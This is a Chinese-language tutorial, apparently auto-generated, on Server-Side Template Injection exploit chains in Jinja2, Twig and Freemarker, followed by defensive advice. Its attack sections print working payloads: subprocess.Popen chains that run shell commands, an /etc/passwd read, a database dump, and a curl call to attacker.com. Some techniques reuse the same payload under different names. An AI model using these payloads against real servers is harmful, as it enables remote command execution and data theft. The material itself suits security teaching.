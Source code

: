 ### 模板注入(SSTI)利用链构造的攻击技术

模板注入（Server-Side Template Injection, SSTI）是一种常见的Web安全漏洞，攻击者通过向服务器端模板引擎注入恶意代码，从而执行任意命令或获取敏感信息。模板注入利用链构造是指攻击者通过一系列精心设计的输入，逐步利用模板引擎的特性，最终实现攻击目标。本文将详细说明模板注入利用链构造的常见攻击手法和利用方式。

#### 1. 模板注入的基本原理

模板引擎通常用于将动态数据嵌入到静态模板中，生成最终的HTML页面。常见的模板引擎包括Jinja2（Python）、Twig（PHP）、Freemarker（Java）等。模板注入漏洞通常发生在用户输入被直接插入到模板中，而没有经过适当的过滤或转义。

例如，考虑以下Jinja2模板代码：

```python
from jinja2 import Template

template = Template("Hello, {{ name }}!")
print(template.render(name=user_input))
```

如果`user_input`是用户可控的输入，攻击者可以注入恶意代码，例如：

```python
user_input = "{{ 7 * 7 }}"
```

最终输出的结果将是`Hello, 49!`，这表明模板引擎执行了注入的表达式。

#### 2. 模板注入利用链构造的常见攻击手法

##### 2.1 表达式注入

表达式注入是模板注入的最基本形式，攻击者通过注入表达式来执行任意计算或操作。例如，在Jinja2中，攻击者可以注入以下代码来执行系统命令：

```python
user_input = "{{ ''.__class__.__mro__[1].__subclasses__()[216]('ls', shell=True) }}"
```

这段代码通过Python的反射机制，找到`subprocess.Popen`类并执行`ls`命令。

##### 2.2 对象属性访问

攻击者可以通过访问对象的属性来获取敏感信息或执行恶意操作。例如，在Twig中，攻击者可以注入以下代码来获取环境变量：

```twig
{{ app.request.server.get('ENV_VAR') }}
```

这段代码通过访问`app.request.server`对象，获取服务器环境变量。

##### 2.3 方法调用

攻击者可以通过调用对象的方法来执行任意操作。例如，在Freemarker中，攻击者可以注入以下代码来读取文件内容：

```freemarker
<#assign object="freemarker.template.utility.Execute"?new()> ${object("cat /etc/passwd")}
```

这段代码通过调用`Execute`类的构造函数，执行`cat /etc/passwd`命令。

##### 2.4 类加载与实例化

攻击者可以通过加载和实例化类来执行恶意代码。例如，在Jinja2中，攻击者可以注入以下代码来加载并实例化恶意类：

```python
user_input = "{{ ''.__class__.__mro__[1].__subclasses__()[216]('malicious_code', shell=True) }}"
```

这段代码通过加载`subprocess.Popen`类并实例化，执行恶意代码。

##### 2.5 利用内置函数和过滤器

模板引擎通常提供内置函数和过滤器，攻击者可以利用这些功能来执行恶意操作。例如，在Jinja2中，攻击者可以注入以下代码来执行Python代码：

```python
user_input = "{{ ''.__class__.__mro__[1].__subclasses__()[216]('python -c \"import os; os.system(\'ls\')\"', shell=True) }}"
```

这段代码通过调用`subprocess.Popen`类，执行Python代码并列出当前目录的文件。

#### 3. 模板注入利用链构造的利用方式

##### 3.1 信息泄露

攻击者可以通过模板注入获取敏感信息，例如服务器环境变量、配置文件内容、数据库连接信息等。例如，在Twig中，攻击者可以注入以下代码来获取服务器环境变量：

```twig
{{ app.request.server.get('ENV_VAR') }}
```

##### 3.2 远程代码执行

攻击者可以通过模板注入执行任意系统命令，从而完全控制服务器。例如，在Jinja2中，攻击者可以注入以下代码来执行`ls`命令：

```python
user_input = "{{ ''.__class__.__mro__[1].__subclasses__()[216]('ls', shell=True) }}"
```

##### 3.3 文件操作

攻击者可以通过模板注入读取、写入或删除文件。例如，在Freemarker中，攻击者可以注入以下代码来读取文件内容：

```freemarker
<#assign object="freemarker.template.utility.Execute"?new()> ${object("cat /etc/passwd")}
```

##### 3.4 数据库操作

攻击者可以通过模板注入执行数据库查询或操作。例如，在Jinja2中，攻击者可以注入以下代码来执行SQL查询：

```python
user_input = "{{ ''.__class__.__mro__[1].__subclasses__()[216]('sqlite3 /path/to/database.db \"SELECT * FROM users\"', shell=True) }}"
```

##### 3.5 网络请求

攻击者可以通过模板注入发起网络请求，例如发送HTTP请求或建立反向Shell连接。例如，在Jinja2中，攻击者可以注入以下代码来发送HTTP请求：

```python
user_input = "{{ ''.__class__.__mro__[1].__subclasses__()[216]('curl http://attacker.com', shell=True) }}"
```

#### 4. 防御措施

为了防止模板注入漏洞，开发人员应采取以下措施：

- **输入验证和过滤**：对所有用户输入进行严格的验证和过滤，确保输入内容符合预期格式。
- **输出编码**：在将用户输入插入到模板中时，进行适当的输出编码，防止恶意代码执行。
- **使用安全的模板引擎**：选择安全性较高的模板引擎，并确保使用最新版本，避免已知漏洞。
- **限制模板功能**：在模板引擎中禁用或限制危险的功能，例如执行系统命令或访问敏感对象。
- **最小权限原则**：在服务器上运行应用程序时，使用最小权限原则，限制应用程序的访问权限。

#### 5. 总结

模板注入（SSTI）利用链构造是一种复杂的攻击技术，攻击者通过精心设计的输入，逐步利用模板引擎的特性，最终实现攻击目标。常见的攻击手法包括表达式注入、对象属性访问、方法调用、类加载与实例化、利用内置函数和过滤器等。开发人员应采取严格的输入验证和过滤、输出编码、使用安全的模板引擎、限制模板功能和最小权限原则等防御措施，防止模板注入漏洞的发生。

---

*文档生成时间: 2025-03-11 17:38:15*






















